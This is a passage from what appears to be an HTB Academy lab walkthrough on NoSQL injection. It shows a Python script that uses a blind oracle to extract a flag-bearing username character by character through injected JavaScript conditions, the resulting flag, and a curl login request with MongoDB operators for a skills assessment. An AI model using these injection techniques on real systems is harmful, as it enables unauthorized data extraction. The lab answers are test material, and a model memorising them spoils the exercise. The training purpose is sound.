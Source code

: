 ```python
while username[-1] != "}":
    low = 32
    high = 127
    mid = 0

    while low <= high:
        mid = (high + low) // 2
        if oracle(f'this.username.startsWith("HTB{{") && this.username.charCodeAt({i}) > {mid}'):
            low = mid + 1
        elif oracle(f'this.username.startsWith("HTB{{") && this.username.charCodeAt({i}) < {mid}'):
            high = mid - 1
        else:
            username += chr(mid)
            break
    i += 1

assert (oracle(f'this.username == \`{username}\`') == True)
print(f"Username: {username}")
```

Code: shell

```shell
python3 oracle.py
```

```
┌─[us-academy-2]─[10.10.14.207]─[htb-ac413848@htb-umv3iuejom]─[~]
└──╼ [★]$ python3 oracle.py

Username: HTB{N0_m0r3_md5,I'm_Bu!Lt_d1fF3reNt}
```

The same flag will be attained.

Answer: `HTB{N0_m0r3_md5,I'm_Bu!Lt_d1fF3reNt}`

# Skills Assessment I

## Question 1

### "Exploit the NoSQLi vulnerability in the API and submit the flag you find."

After spawning the target machine, and using the information provided for the scenario, students first need to test the API endpoint by attempting to sign in with the credentials `pentest:pentest`, receiving a (useless) token in the response:

Code: shell

```shell
curl -w "\n" -s -X POST "http://STMIP:STMPO/api/login" -H 'Content-Type: application/json' -d '{"username": {"$eq": "pentest"}, "password": {"$eq": "pentest"}}'
```

